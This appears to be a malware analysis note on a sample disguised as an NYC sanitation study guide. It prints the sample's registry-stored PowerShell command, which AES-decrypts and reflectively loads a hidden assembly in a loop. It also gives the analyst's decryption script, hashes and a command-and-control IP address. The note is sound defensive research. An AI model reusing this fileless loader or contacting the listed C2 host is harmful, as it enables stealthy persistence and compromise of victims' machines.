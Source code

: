 ### Occurrence

05-23-2023

### File Information
File: Nyc-Sanitation-Study-Guide.exe
Hash: af1f2b516ede83cf2699ba54113ce7a7d81d17040588746a19a1fa2ea41175d6
Dynamic Analysis: https://tria.ge/230522-q6gbgagg86/behavioral2

### Registry containing decryption method

```powershell
\REGISTRY\USER\S-1-5-21-4238149048-355649189-894321705-1000_Classes\fqm3y2qp1vu\shell\open\command\ = "powershell -command \"$A=New-Object System.Security.Cryptography.AesCryptoServiceProvider;$A.Key=@([byte]62,30,15,134,84,122,250,208,115,183,250,168,0,188,126,120,91,87,201,237,254,97,57,35,96,163,200,77,242,68,142,244);$A.IV=@([byte]15,138,1,202,196,91,7,147,249,50,27,42,35,91,58,138);$F=(get-itemproperty 'HKCU:\\Software\\Classes\\bysxepsbwlz').'(default)';[Reflection.Assembly]::Load($A.CreateDecryptor().TransformFinalBlock($F,0,$F.Length));$c=$null;while($true){try{$c=[hGte7wy8sZSg96YadN8LCrdzaqDdXwbKBt1Fkz7eKOTOH7F0mWPeUvyvmDsJNHs2GnW.IsEbZin2uIZw4UFcNe0bWHNFHljmSH8PzEIBdMtfBsW4BJJiofYR1QxK_Z1jmVUACyhBvVwRKipYDUYX0oVTC]::JsvzuZ7sRx8lF($c);}catch{};Start-Sleep -Seconds 20}\""	
```

### Re-creating the decryption method using the data stored in the registry

```powershell
$key = @([byte]62,30,15,134,84,122,250,208,115,183,250,168,0,188,126,120,91,87,201,237,254,97,57,35,96,163,200,77,242,68,142,244)
$iv = @([byte]15,138,1,202,196,91,7,147,249,50,27,42,35,91,58,138)
# saved hex data to a file called 'payload'
$content = Get-Content "payload" -Raw 
$encryptedBytes = new-object byte[] ($content.Length / 2)
for ($i=0;$i -lt $encryptedBytes.Length; $i++) {
    $encryptedBytes[$i] = [System.Convert]::ToByte($content.Substring($i*2, 2), 16)
}

$aes = New-Object System.Security.Cryptography.AesCryptoServiceProvider
$aes.Key = $key
$aes.IV = $iv
$aes.Mode = [System.Security.Cryptography.CipherMode]::CBC
$aes.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
$decryptor = $aes.CreateDecryptor()
$PE=$Decryptor.TransformFinalBlock($encryptedBytes, 0, $encryptedBytes.Length);
$aes.Dispose();
[system.io.file]::writeallbytes("payload2.dll", $PE);
```

### C2 Payload
Hash: ad88175040eec9c218961930a7a1fd7b5fcb831adbd6dbedde9c741dcdba8398
C2: `http://23.29.115.186/`
VT: https://www.virustotal.com/gui/file/ad88175040eec9c218961930a7a1fd7b5fcb831adbd6dbedde9c741dcdba8398/detection
